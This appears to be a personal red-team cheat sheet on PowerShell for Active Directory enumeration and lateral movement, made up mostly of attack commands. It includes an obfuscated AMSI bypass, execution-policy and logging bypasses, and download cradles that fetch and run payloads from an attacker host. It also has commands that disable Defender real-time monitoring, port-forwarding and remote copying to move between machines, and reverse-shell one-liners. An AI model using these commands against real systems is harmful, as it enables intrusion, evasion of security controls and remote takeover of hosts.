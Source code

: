 ```yaml
---
tags:
  - general
  - domain-enumeration
  - lateral-movement
---
```

##### Introduction
- Case insensitive
- .NET compliant and reliant, classes for AD are in System.DirectoryServices.ActiveDirectory
- Shell of the future, shell for the cloud
- Available not only on Windows, its called PowerShell Core.
- It is not powershell.exe, that is just a way to run System.Management.Automation.dll which is actually PowerShell.

##### Basic functionality

```powershell title:"Get the contents of a file"
gEt-COnTeNt file.txt
```

```powershell title:"help for a cmdlet"
Get-Help cmdlet-goes-here
```

```powershell title:"dot-sourcing"
. C:\AD\Tools\PowerView.ps1
```

```powershell title:"import a module or a script"
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```powershell title:"list all the commands in a module"
Get-Command -Module <module_name>
```

##### Execution Policy

![[tweet.png]]

- It prevents users from accidentally executing scripts. Yeah.
- Here are [15 other ways to bypass it](https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy/)

```batch title:"bypass execution policy using batch or powershell"
1. powershell -ExecutionPolicy bypass
2. powershell -c cmd
```
```powershell title:"bypass execution policy using powershell"
$env:PSExecutionPolicyPreference="bypass"
```

##### The actual bypasses

###### Invisi-Shell

- The tool hooks the .NET assemblies (System.Management.Automation.dll and System.Core.dll) to bypass logging.
- It uses a CLR profiler API to perform the hook.

```batch title:"using invisi-shell with admin privileges"
RunWithPathAsAdmin.bat
```

```batch title:"using invisi-shell without admin privileges"
RunWithRegistryNonAdmin.bat
```

###### AMSI bypass

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

###### Download a file from an advanced foothold

```powershell title:"Download from webserver"
iex (iwr http://10.0.2.15/Loader.exe -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://10.0.2.15/SharpHound.ps1'))
iwr http://10.0.2.15/Safety.bat -OutFile C:\Users\Public\Argsplit.bat
```

```batch title:"Remotely copy"
echo F | xcopy C:\Users\Public\Argsplit.bat \\remote-machine\C$\Users\Public\Safety.bat
```
###### Avoid Detection

```batch title:"Portforwarding from an advanced foothold"
$null | winrs -r:remote-computer "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=10.0.2.15 connectaddress=80"
```

```batch title:'Splitting arguments'
Argsplit.bat
```

###### Disable defender

```powershell title:"Disable Real-Time monitoring (needs admin privileges)"
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```

###### Reverse Shell

```batch title:"Reverse shell"
powershell iex (iwr -UseBasicParsing http://your.ip/Invoke-PowerShellTcp.ps1);Power -Reverse -IPAddress your.ip -Port your.port
powershell -c iex ((New-Object Net.WebClient).DownloadString('http://your.ip/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress your.ip -Port your.port
```

###### Security

```powershell title:"Check Language Mode"
$ExecutionContext.SessionState.LanguageMode
```

```powershell title:"List Applocker policy"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell title:"Find AV exclusion paths on the foothold (needs admin privileges)"
Get-MpPreference | select -Property ExclusionPath
```

###### List environment variables

```powershell title:":)"
ls :env
```

